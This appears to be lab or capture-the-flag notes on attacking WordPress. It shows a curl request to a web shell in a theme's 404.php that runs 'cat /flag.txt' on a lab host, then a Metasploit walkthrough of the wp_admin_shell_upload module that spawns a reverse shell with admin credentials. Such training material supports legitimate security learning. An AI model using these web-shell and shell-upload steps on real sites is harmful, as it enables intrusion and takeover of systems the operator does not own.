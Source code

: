 `curl -X GET "http://94.237.49.212:48820/wp-content/themes/twentyseventeen/404.php?cmd=cat /flag.txt"`

^ nope but after doing ls a couple times on the home dir and sub dirs I found it.

## Attacking WordPress with Metasploit

We can use the Metasploit Framework (MSF) to obtain a reverse shell on the target automatically. This requires valid credentials for an account that has sufficient rights to create files on the webserver.

We can quickly start MSF by issuing the following command:

msfconsole

To obtain the reverse shell, we can use the wp_admin_shell_upload module. We can easily search for it inside MSF:

`msf5 > search wp_admin`

The number 0 in the search results represents the ID for the suggested modules. From here on, we can specify the module by its ID number to save time.

`msf5 > use 0`

`msf5 exploit(unix/webapp/wp_admin_shell_upload) >`

Each module offers different settings options that we can use to assign precise specifications to MSF to ensure the attack's success. We can list these options by issuing the following command:

```
msf5 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

Name       Current Setting  Required  Description
----       ---------------  --------  -----------
PASSWORD                    yes       The WordPress password to authenticate with
Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT      80               yes       The target port (TCP)
SSL        false            no        Negotiate SSL/TLS for outgoing connections
TARGETURI  /                yes       The base path to the wordpress application
USERNAME                    yes       The WordPress username to authenticate with
VHOST                       no        HTTP server virtual host


Exploit target:

Id  Name
--  ----
0   WordPress
```

After using the set command to make the necessary modifications, we can use the run command to execute the module. If all of our parameters are set correctly, it will spawn a reverse shell on the target upon execution.
